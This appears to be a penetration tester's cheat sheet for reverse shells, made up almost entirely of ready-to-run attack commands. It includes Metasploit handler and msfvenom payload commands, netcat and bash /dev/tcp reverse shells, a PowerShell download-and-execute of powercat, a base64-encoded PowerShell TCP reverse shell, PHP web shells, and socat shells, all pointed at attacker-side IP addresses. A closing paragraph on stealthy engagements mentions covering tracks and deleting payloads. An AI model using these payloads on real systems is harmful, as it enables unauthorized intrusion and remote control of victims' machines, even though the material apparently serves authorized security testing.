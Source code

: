 [Revshells](https://www.revshells.com)
[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[ASPX Reverse Shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)
[PHP Reverse Shell](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php)
```bash
msfconsole -q -x 'use exploit/multi/handler;set LHOST tun0; set LPORT 4443; run'

msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 8443; run'

msfconsole -q -x 'use exploit/multi/handler;set payload linux/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 4443; run'
```

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.8 LPORT=4443 -f elf > shell.elf

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
bash -c 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1'

python3 -c 'import pty; pty.spawn("/bin/bash")' 
stty raw -echo && fg
```


```bash
msfconsole -q -x 'use exploit/windows/smb/smb_delivery; set LHOST tun0; set LPORT 8443; set SRVHOST 10.10.10.157; run'
use exploit/windows/smb/smb_delivery

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=4443 -f exe > shell.exe
```
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.18/powercat.ps1');powercat -c 10.10.14.18 -p 4443 -e powershell"

```powershell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.237",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
powershell -e <payload>
```

```php
<?php system($_GET['cmd']) ?> 
<?php system($_REQUEST['cmd']) ?> 
<?php echo shell_exec($_GET['cmd']); ?>
<?php echo shell_exec($_REQUEST['cmd']); ?>
system("powershell -c curl http://10.10.14.6/nc.exe -o C:\\programdata\\nc.exe");
system("C:\\programdata\\nc.exe 10.10.14.6 1337 -e powershell.exe");
```

Stabilize socat shell 
```bash
socat TCP4:10.10.14.3:4443 EXEC:/bin/bash

socat file:`tty`,raw,echo=0 tcp-listen:4443    <-- On our host

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.15:4443
```

Depending on the engagement type (i.e., a black box evasive assessment), we may need to attempt to go undetected and `cover our tracks`. We are often helping our clients test their capabilities to detect a live threat, so we should emulate as much as possible the methods a malicious attacker may attempt, including attempting to operate stealthily. This will help our client and save us in the long run from having files discovered after an engagement period is over. In most cases, when attempting to gain a shell session with a target, it would be wise to establish a reverse shell and then delete the executed payload. Also, we must document every method we attempt, what worked & what did not work, and even the names of the payloads & files we tried to use. We could include a sha1sum or MD5 hash of the file name, upload locations in our reports as proof, and provide attribution.